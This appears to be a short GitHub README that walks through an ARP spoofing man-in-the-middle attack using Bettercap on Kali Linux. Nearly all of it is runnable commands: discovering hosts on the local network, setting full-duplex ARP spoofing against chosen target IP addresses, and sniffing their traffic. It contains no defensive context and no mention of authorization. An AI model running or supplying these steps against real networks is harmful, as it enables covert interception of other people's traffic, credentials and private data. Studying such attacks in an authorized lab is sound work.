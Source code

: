 # INSTRUCTIONS:
1. Open a terminal on kali linux and install Bettercap tool

2. For installation run <br>
&emsp;&emsp;&emsp;$ sudo apt-get install bettercap

3. Or clone the git repository of Bettercap from github to your kali machine

4. Run the following commands for the target ip addresses on the network, <br>
&emsp;&emsp;&emsp;Open a terminal <br>
&emsp;&emsp;&emsp;$ sudo bettercap <br>
&emsp;&emsp;&emsp;$ net.probe on  (To discover the targets) <br>
&emsp;&emsp;&emsp;$ net.recon on (To discover more targets on the network) <br>
&emsp;&emsp;&emsp;$ net.show (To display target ip addresses) <br>
&emsp;&emsp;&emsp;Now we can see all the ip addresses in our network

5. Now set the fullduplex mode to true  <br>
&emsp;&emsp;&emsp;$ set arp.spoof.fullduplex true

6. Then give the targets by seperating with commas <br>
&emsp;&emsp;&emsp;$ set arp.spoof.targets ip1,ip2,ip3....

7. Now run the following commands to start the attack <br>
&emsp;&emsp;&emsp;$ arp.spoof on <br>
&emsp;&emsp;&emsp;$ net.sniff on

8. Now check the attack by using any browser, if the bettercap is capturing the packets then the attack is working properly.

9. To exit the attack run <br>
&emsp;&emsp;&emsp;$ exit

10. That's it, we did it.
